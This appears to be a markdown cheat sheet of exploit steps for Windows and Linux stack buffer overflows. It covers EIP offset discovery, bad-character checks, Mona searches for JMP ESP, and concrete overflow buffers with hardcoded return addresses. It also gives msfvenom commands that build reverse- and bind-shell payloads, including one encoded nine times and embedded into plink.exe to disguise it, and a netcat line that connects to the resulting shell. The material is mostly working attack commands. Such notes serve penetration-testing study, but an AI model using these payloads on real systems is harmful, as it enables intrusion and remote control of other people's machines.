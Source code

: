 # Buffer Overflows

### Windows Buffer Overflows

#### Controlling EIP

```bash
locate pattern_create
pattern_create.rb -l 2700
locate pattern_offset
pattern_offset.rb -q 39694438
```

#### Verify exact location of EIP

\[\*\] Exact match at offset 2606

```bash
buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90
```

#### Check for “Bad Characters”

-Run multiple times 0x00 - 0xFF -Use Mona to determine a module that is unprotected -Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

#### Use NASM to determine the HEX code for a JMP ESP instruction

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

JMP ESP  
00000000 FFE4 jmp esp
```

#### Run Mona in immunity log window to find \(FFE4\) XEF command

```text
!mona find -s "\xff\xe4" -m slmfc.dll  
found at 0x5f4a358f - Flip around for little endian format
buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
```

#### MSFVenom to create payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

Final Payload with NOP slide

```bash
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode
```

Create a PE Reverse Shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
exe -o shell_reverse.exe
```

Create a PE Reverse Shell and Encode 9 times with Shikata\_ga\_nai

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

Create a PE reverse shell and embed it into an existing executable

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

Create a PE Reverse HTTPS shell

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe
```

### Linux Buffer Overflows

#### Run Evans Debugger against an app

```bash
edb --run /usr/games/crossfire/bin/crossfire
```

#### ESP register points toward the end of our CBuffer

```bash
add eax,12
jmp eax
83C00C add eax,byte +0xc
FFE0 jmp eax
```

#### Check for “Bad Characters” Process of elimination

Run multiple times 0x00 - 0xFF

```bash
Find JMP ESP address
"\x97\x45\x13\x08" # Found at Address 08134597

crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90"

msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
```

#### Connect to the shell with netcat:

```bash
nc -v $ip 4444
```

